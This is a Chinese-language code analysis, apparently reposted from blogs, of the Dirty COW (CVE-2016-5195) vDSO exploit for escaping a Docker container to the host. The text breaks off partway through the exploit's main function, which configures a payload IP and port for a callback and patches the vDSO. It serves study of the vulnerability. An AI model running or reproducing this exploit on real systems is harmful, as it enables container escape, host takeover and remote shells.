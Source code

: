 ```yaml
---
description: 脏牛漏洞-Docker逃逸
---
```


# 脏牛漏洞-Docker逃逸POC\(dirtycow-vdso\)代码分析

以下内容来自「CSDN博主[enjoy5512](https://me.csdn.net/enjoy5512) 的文章[脏牛漏洞-Docker逃逸POC\(dirtycow-vdso\)代码分析](https://blog.csdn.net/enjoy5512/article/details/53196047)」以及「[  
Lyy's Blog](http://ksowo.com/)的文章--[docker用脏牛逃逸到宿主机](http://ksowo.com/2018/07/20/docker%E7%94%A8%E8%84%8F%E7%89%9B%E9%80%83%E9%80%B8%E5%88%B0%E5%AE%BF%E4%B8%BB%E6%9C%BA/)」，如有侵权，请联系删除！

## 利用代码原出处

 [代码原帖](http://mp.weixin.qq.com/s?__biz=MjM5Njc3NjM4MA==&mid=2651069205&idx=3&sn=2c79678bcfcde9113f3d6848277ffa0a&chksm=bd14abc68a6322d0d5855c5d8ec3b8c5cf7c75886b3b7464c242adc1864cfb1af22bf63a39d7&mpshare=1&scene=23&srcid=1105rp9r0ZahYZNG6KJufSkp#rd)

本人GitHub也保留有漏洞利用相关代码  
 [CVE-2016-5195](https://github.com/whu-enjoy/CVE-2016-5195)

作者 : 武汉大学Docker安全研究小组

## 一 . 代码运行流程 <a id="&#x4E00;-&#x4EE3;&#x7801;&#x8FD0;&#x884C;&#x6D41;&#x7A0B;"></a>

 Main函数

```c
int main(int argc, char *argv[])
{
    struct prologue *prologue;
    struct mem_arg arg;
    uint16_t port;
    uint32_t ip;
    int s;

    ip = htonl(PAYLOAD_IP);
    port = htons(PAYLOAD_PORT);

    if (argc > 1) {
        if (parse_ip_port(argv[1], &ip, &port) != 0)
            return EXIT_FAILURE;
    }

    fprintf(stderr, "[*] payload target: %s:%d\n",
        inet_ntoa(*(struct in_addr *)&ip), ntohs(port));

    arg.vdso_addr = get_vdso_addr();
    if (arg.vdso_addr == NULL)
        return EXIT_FAILURE;

    prologue = fingerprint_prologue(arg.vdso_addr);
    if (prologue == NULL) {
        fprintf(stderr, "[-] this vDSO version isn't supported\n");
        fprintf(stderr, "    add first entry point instructions to prologues\n");
        return EXIT_FAILURE;
    }

    if (patch_payload(prologue, ip, port) == -1)
        return EXIT_FAILURE;

    if (build_vdso_patch(arg.vdso_addr, prologue) == -1)
```
